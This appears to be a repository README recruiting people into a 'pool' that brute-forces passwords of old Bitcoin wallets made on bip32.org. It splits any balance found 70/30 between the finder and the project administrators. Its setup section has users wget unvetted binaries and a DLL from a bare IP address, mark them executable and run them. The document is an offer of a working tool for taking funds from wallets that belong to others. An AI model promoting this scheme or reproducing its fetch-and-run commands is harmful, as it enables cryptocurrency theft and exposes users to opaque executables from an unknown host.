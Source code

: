 # bip39scan v2.0.1 POOL
# The pool is expected to start this week.
**Collective search of old coins from the site [bip32.org](http://bip32.org)**

➡️ Online Statistic https://bip39scan.com<br>
➡️ Telegram group https://t.me/bip39scan

**Pool conditions:**<br>
💰 70% of the balance of the find to the one who found the password.<br>
💵 30% of the balance of the find to the project administration

## Connect to the pool
#### Linux:
wget http://95.215.108.160/up/xx<br>
wget http://95.215.108.160/up/precomp.bin<br>
wget http://95.215.108.160/up/libcrypto-1_1-x64.dll<br>
```chmod +x xx```<br>
```./xx -u YourNickName --bloom 2048M```<br>

#### Windows:
http://95.215.108.160/up/xx.exe<br>
http://95.215.108.160/up/precomp.bin<br>
http://95.215.108.160/up/libcrypto-1_1-x64.dll<br>
```xx.exe -u Nick_Name --bloom 2048M```<br>


## FAQ
**What does this pool do?**

Collectively brute forces passwords from old wallets created on bip32.org and others.<br>
A given alphabet is used for brute forcing, each client. <br>
Each card searches for its own piece of the main task.<hr>

**Will this pool work on my pc?**

Only CUDA cards support GTX, RTX, CMP<br>
Need RAM - 16 GB<br>
Brute speed:<br>
RTX 4090 = 60k/s<br>
RTX 5090 = 90k/s<hr>

**Why does the program require 16 GB of RAM?**

The client automatically downloads the address database 11 GB (binary format). <br>
The database is loaded into RAM and eats up 12 GB of memory, another 4 GB is needed for the system.<br>
If the database on the server has changed, it automatically updates it. <br>
After downloading, the client checks the checksum of the database, which excludes incompletely downloaded addresses.<hr>

**I want to search anonymously, how can I do this?**

For anonymity, use your BTC address instead of a nickname.<br>
Use your address, 70% will be paid to it<hr>

**How to search by nickname?**

You can use a nickname in the pool. Use xx -u Yournick --bloom 2048M<br>
You need to write @phrutis your nickname and your BTC address.<br>
I will add your address to the private list.<hr>

**How do I know what I found?**

The bot will send a message to the telegram group https://t.me/bip39scan with information about the find.<br>
If the client finds an address, the window displays the found address.<br>
<img width="977" height="510" alt="Image" src="https://github.com/user-attachments/assets/29720e79-e401-4d2c-82e1-f134dc52858d" /><hr>


